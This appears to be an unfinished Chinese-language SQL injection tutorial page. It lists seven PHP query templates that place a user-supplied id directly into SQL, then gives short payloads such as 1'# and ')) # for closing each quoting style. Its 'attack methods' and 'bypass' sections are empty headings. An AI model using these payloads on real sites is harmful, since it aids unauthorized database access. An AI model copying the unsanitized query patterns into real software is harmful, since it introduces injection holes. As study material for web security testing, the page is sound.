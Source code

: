 ### 一、注入类型判定
1. web后台常用格式
```sql
$sql = "SELECT * FROM users WHERE id = $id LIMIT 0,1";
$sql = "SELECT * FROM users WHERE id = '$id' LIMIT 0,1";
$sql = 'SELECT * FROM users WHERE id = "$id" LIMIT 0,1';
$sql = "SELECT * FROM users WHERE id = ('$id') LIMIT 0,1";
$sql = 'SELECT * FROM users WHERE id = ("$id") LIMIT 0,1';
$sql = "SELECT * FROM users WHERE id = (('$id')) LIMIT 0,1";
$sql = 'SELECT * FROM users WHERE id = (("$id")) LIMIT 0,1';
```
因此，可以通过输入以下payload进行闭合
> 1#
> 1'# 
> 1"#
> 1')# 
> ')) #
> ') # 
> ")) #

### 二、攻击方式


### 三、攻击绕过


